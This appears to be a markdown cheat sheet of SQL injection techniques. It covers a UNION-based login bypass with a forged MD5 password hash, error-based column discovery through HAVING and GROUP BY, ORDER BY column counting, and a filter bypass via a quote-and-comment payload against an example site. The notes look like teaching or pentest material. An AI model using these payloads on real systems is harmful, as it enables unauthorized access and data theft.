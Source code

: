 

### Bypassing MD5 Hash Check Example (MSP)
might need to know hash format used for passwords on the site. 
```
Username :admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
Password : 1234
```
81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234)


### Error Based - Find Columns Names
**Finding Column Names with HAVING BY - Error Based (SQL Server):**
In the same order,
- HAVING 1=1 --
- GROUP BY table.columnfromerror1 HAVING 1=1 --
- GROUP BY table.columnfromerror1, columnfromerror2 HAVING 1=1 --
- GROUP BY table.columnfromerror1, columnfromerror2, columnfromerror(n) HAVING 1=1 -- and so on

If you are not getting any more error then it's done.

**Finding how many columns in SELECT query by ORDER BY:**
- ORDER BY 1--
- ORDER BY 2--
- ORDER BY N-- so on

Keep going until get an error. Error means you found the number of selected columns.

## SQL injection in different parts of the query
The most common locations where SQL injection arises are:
- In WHERE clause of a SELECT query
- In UPDATE statements, within the updated values or the WHERE clause.
- In INSERT statements, within the inserted values.
- In SELECT statements, within the table or column name.
- In SELECT statements, within the ORDER BY clause.


## Example Bypass Restriction/ Retrieving Hidden Data: 
in this example the system is automatically adding ```'AND released = 1'``` to the query to prevent customers from seeing unreleased items. 

Web Request: https://insecure-website.com/products?category=Gifts

Becomes: 
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
This SQL query asks the database to return:
- all details (*)
- from the products table
- where the category is Gifts
- and released is 1.

Modified: https://insecure-website.com/products?category=Gifts'--
